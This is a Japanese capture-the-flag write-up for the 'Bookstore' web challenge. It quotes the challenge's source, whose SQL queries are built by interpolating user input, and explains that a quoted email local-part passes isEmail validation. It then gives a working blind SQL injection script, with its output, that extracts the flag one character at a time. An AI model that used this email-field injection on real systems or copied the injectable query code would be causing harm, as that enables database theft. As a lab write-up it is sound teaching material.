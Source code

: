 # Bookstore:Web:65pts
Maple Stories 2 is out! Get it for me pwease  

[http://bookstore.ctf.maplebacon.org/](http://bookstore.ctf.maplebacon.org/)  

[bookstore.zip](bookstore.zip)  

# Solution
URLとソースが渡される。  
アクセスするとユーザ登録ができ、本を購入できるサービスのようだ。  
0円なのでとりあえず全て買う。  
![site1.png](site/site1.png)  
購入したものはDirectとKindleでダウンロードできる。  
![site2.png](site/site2.png)  
不審な点は見られないので、ソースコードよりフラグの場所を探す。  
Dockerfileに以下の記述がみられる。  
```
~~~
COPY init.sql /init.sql
ENV FLAG="maple{test_flag}"
RUN sed -i "s/FLAGE/$FLAG/g" /init.sql
~~~
```
init.sqlは以下のようであった。  
```sql
~~~
INSERT INTO books(title, author, price, texts) VALUES('Maple Stories', 'Maple-Chan', 0, 'FLAGE');
INSERT INTO books(title, author, price, texts) VALUES('Beating Me: Three essentials for playing the honk market', 'Sir Bacon', 0, 'Dont, dont, dont');
INSERT INTO books(title, author, price, texts) VALUES('Tetrio Strategy Guide', 'Addicted folks @ Maple Bacon', 0, 'Press 4, mind your own business, ???, win game');
INSERT INTO books(title, author, price, texts) VALUES('Midnight Owos - Maple Land Bestiary', 'Syrup', 0, 'TBD');

CREATE USER 'player'@'%' IDENTIFIED WITH mysql_native_password BY 'Player123!';
GRANT INSERT ON requests TO 'player'@'%';
GRANT SELECT ON *.* TO 'player'@'%';
FLUSH PRIVILEGES;
```
booksの先頭のtextsに入っているようだ。  
SQLiを狙いユーザ入力が絡むクエリ発行個所(db.js)を見ると以下のようであった。  
```js
~~~
    register(username, password) {
        return new Promise((resolve, reject) => {
            this.adminDB.query(`INSERT INTO users(username, password) VALUES('${username}', '${password}')`, (err) => {
~~~
    getUser(username, password, callback) {
        const query = `
        SELECT * FROM users WHERE username = '${username}' AND password = '${password}';
        `;
~~~
    insertEmail(email, book_id) {
        const query = `INSERT INTO requests(email, book_id) VALUES('${email}', '${book_id}');`;
~~~
```
十分にSQLiが可能そうであるが、index.jsで各所に以下のような記述がみられる。  
```js
~~~
import { validateEmail, validateLogin } from './validator.js';
~~~
app.post('/login', (req, res) => {
    const username = req.body.username;
    const password = req.body.password;

    if (!validateLogin(username, password)) {
~~~
app.post('/register', (req, res) => {
    const username = req.body.username;
    const password = req.body.password;

    if (!validateLogin(username, password)) {
~~~
app.post('/download-ebook', (req, res) => {
~~~
    switch (option) {
        case 'direct':
            res.write('Direct downloads currently unavailable. Please wait until the established publish date!');
            break;
        case 'kindle':
            if (validateEmail(email)) {
~~~
```
validator.jsは以下のようであった。  
```js
import validator from 'validator'

export function validateEmail(email) {
    return validator.isEmail(email)
}

function validateUsername(username) {
    return validator.isAlphanumeric(username, 'en-US') && username.length > 3 && username.length < 30
}

function validatePassword(password) {
    return validator.isAlphanumeric(password, 'en-US') && password.length > 6 && password.length < 30
}

export function validateLogin(username, password) {
    return username && password && validateUsername(username) && validatePassword(password)
}
```
入力のvalidationが適切に行われている。  
一見するとSQLiが不可能そうに見えるが、`isEmail`の部分に自由度がありそうだ。  
メールアドレスでは、実は特殊記号が利用可能であることが[知られている](https://qiita.com/yoshitake_1201/items/40268332cd23f67c504c)。  
試しに`"'satoki"@satoki.satoki`を入力するとエラーが発生した。  
![sqlie.png](images/sqlie.png)  
local-partに64文字以下でSQLiを引き起こす文字列を設定してやればよい。  
以下のmaple_sqli.pyで行う。  
文字数に注意しつつ、大文字小文字を正確に判定する(記号チェックは省いている)。  
```python
import sys
import string
import requests

flag = "maple{"
#flag = "maple{it_was_all_just_maple_leaf"
moji = string.ascii_lowercase + string.digits + "{}_"


##################################################
cookie = {"connect.sid": "s:EUYX-tMH___eog7tRY1D-hHrvZGTyOne.IspSYCRaRSpAAFUdtKx9NX/5+X+nmzDYTRc/Vhi6GzQ"} # Your cookie
##################################################


url = "http://bookstore.ctf.maplebacon.org/download-ebook"

while True:
    for i in moji:
        payload = {"option": "kindle", "email": f"\"',(SELECT 1 FROM books WHERE SUBSTR(texts,{len(flag) + 1},1)='{i}'AND id=1))#\"@a.sa", "bookID": "1"}
        assert(len(payload["email"]) - len("@a.sa") < 65)
        res = requests.post(url, data=payload, cookies=cookie)
        #print(i) # Debug
        #print(res.text) # Debug
        if "Email saved!" not in res.text:
            continue
        elif i == "}":
            flag += "}"
            print(flag)
            sys.exit()
        else:
            payload = {"option": "kindle", "email": f"\"',(SELECT 1 FROM books WHERE texts LIKE BINARY '%{flag[-7:] + i}%'))#\"@a.sa", "bookID": "1"}
            assert(len(payload["email"]) - len("@a.sa") < 65)
            res = requests.post(url, data=payload, cookies=cookie)
            if "Email saved!" not in res.text:
                i = i.upper()
            flag += i
            print(flag)
            break
```
cookieを自身のものへ変更し、実行する。  
```bash
$ python maple_sqli.py
maple{i
maple{it
maple{it_
maple{it_w
maple{it_wa
maple{it_was
maple{it_was_
maple{it_was_a
maple{it_was_al
maple{it_was_all
maple{it_was_all_
maple{it_was_all_j
maple{it_was_all_ju
maple{it_was_all_jus
maple{it_was_all_just
maple{it_was_all_just_
maple{it_was_all_just_m
maple{it_was_all_just_ma
maple{it_was_all_just_map
maple{it_was_all_just_mapl
maple{it_was_all_just_maple
maple{it_was_all_just_maple_
maple{it_was_all_just_maple_l
maple{it_was_all_just_maple_le
maple{it_was_all_just_maple_lea
maple{it_was_all_just_maple_leaf
maple{it_was_all_just_maple_leaf}
```
flagが得られた。  

## maple{it_was_all_just_maple_leaf}